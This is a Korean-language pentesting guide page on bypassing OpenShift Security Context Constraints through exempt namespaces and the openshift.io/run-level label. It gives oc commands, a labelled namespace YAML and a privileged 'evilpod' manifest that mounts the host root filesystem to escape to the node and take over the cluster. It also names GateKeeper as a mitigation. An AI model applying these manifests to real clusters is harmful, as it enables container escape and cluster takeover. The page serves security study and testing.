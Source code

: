 # Openshift - SCC 우회

**이 페이지의 원 저자는** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## 특권 네임스페이스

기본적으로 SCC는 다음 프로젝트에 적용되지 않습니다:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

이러한 네임스페이스 중 하나에 파드를 배포하면 SCC가 적용되지 않아 특권이 있는 파드를 배포하거나 호스트 파일 시스템을 마운트할 수 있습니다.

## 네임스페이스 레이블

RedHat 문서에 따르면 파드에서 SCC 적용을 비활성화하는 방법이 있습니다. 다음 권한 중 하나 이상이 있어야 합니다:

* 네임스페이스 생성 및 해당 네임스페이스에 파드 생성
* 네임스페이스 편집 및 해당 네임스페이스에 파드 생성
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
특정 레이블 `openshift.io/run-level`은 사용자가 응용 프로그램의 SCC를 우회할 수 있도록 합니다. RedHat 문서에 따르면, 이 레이블을 사용하면 해당 네임스페이스 내의 모든 팟에 대해 SCC가 적용되지 않으므로 모든 제한이 제거됩니다.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## 레이블 추가

네임스페이스에 레이블을 추가하려면:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
YAML 파일을 통해 레이블이 지정된 네임스페이스를 생성하려면:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
지금, 네임스페이스에 생성된 모든 새로운 파드는 어떤 SCC도 가지지 않아야합니다.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC가 없으면 파드 정의에 제한이 없습니다. 이는 악의적인 파드가 호스트 시스템으로 쉽게 이탈될 수 있다는 것을 의미합니다.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
이제 호스트 시스템에 액세스 권한을 승격하여 전체 클러스터를 인수하고 'cluster-admin' 권한을 얻는 것이 더 쉬워졌습니다. 다음 페이지에서 **Node-Post Exploitation** 부분을 찾아보세요 :

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### 사용자 정의 레이블

또한 대상 설정에 따라 이전 공격 시나리오와 동일한 방식으로 일부 사용자 정의 레이블 / 주석이 사용될 수 있습니다. 레이블이 특정 리소스에 대한 권한을 부여하거나 제한하거나 제한하지 않도록 사용될 수 있습니다.

일부 리소스를 읽을 수 있다면 사용자 정의 레이블을 찾아보세요. 여기에 흥미로운 리소스 목록이 있습니다 :

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 모든 특권 있는 네임스페이스 나열
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 고급 exploit

OpenShift에서는 이전에 시연한 대로 `openshift.io/run-level` 레이블이 있는 네임스페이스에 pod를 배포할 수 있는 권한이 있다면 클러스터를 쉽게 탈취할 수 있습니다. 클러스터 설정 관점에서 이 기능은 OpenShift의 설계에 내재되어 있기 때문에 **비활성화할 수 없습니다**.

그러나 **Open Policy Agent GateKeeper**와 같은 완화 조치를 통해 사용자가 이 레이블을 설정하는 것을 방지할 수 있습니다.

GateKeeper의 규칙을 우회하고 이 레이블을 설정하여 클러스터 탈취를 실행하려면 **공격자는 대안적인 방법을 식별해야 합니다.**

## 참고 자료

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
